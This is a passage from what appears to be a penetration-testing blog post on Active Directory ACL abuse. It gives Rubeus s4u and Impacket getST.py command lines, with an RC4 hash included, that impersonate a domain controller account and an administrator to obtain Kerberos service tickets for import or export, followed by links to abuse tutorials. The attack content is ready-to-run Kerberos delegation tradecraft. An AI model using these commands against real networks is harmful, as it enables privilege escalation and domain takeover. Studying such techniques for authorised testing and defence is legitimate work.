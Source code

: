 ```
execute-assembly /tmp/Rubeus.exe s4u /impersonateuser:DC01 /msdsspn:cifs/dc.domain.ru /user:jaki_pc /rc4:fcb5ae2b5e8c05d7a938bbe8649e4a44 /nowrap – convenient for .kirbi export
execute-assembly /tmp/Rubeus.exe s4u /impersonateuser:DC01 /msdsspn:cifs/dc.domain.ru /user:jaki_pc /rc4:fcb5ae2b5e8c05d7a938bbe8649e4a44 /ptt – convenient for TGS import

OR just

getST.py domain.ru/JAKI_PC\$ -dc-ip domain.ru -impersonate administrator -spn time/dc.domain.ru
```

![Image](/img/acl_ad_cd/5.png)


Useful links:

+ [ActiveDirectoryRights: Self](https://zflemingg1.gitbook.io/undergrad-tutorials/active-directory-acl-abuse/self)
+ [ThePorgs Impacket](https://github.com/ThePorgs/impacket)
+ [crypt0p3g](https://github.com/crypt0p3g)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)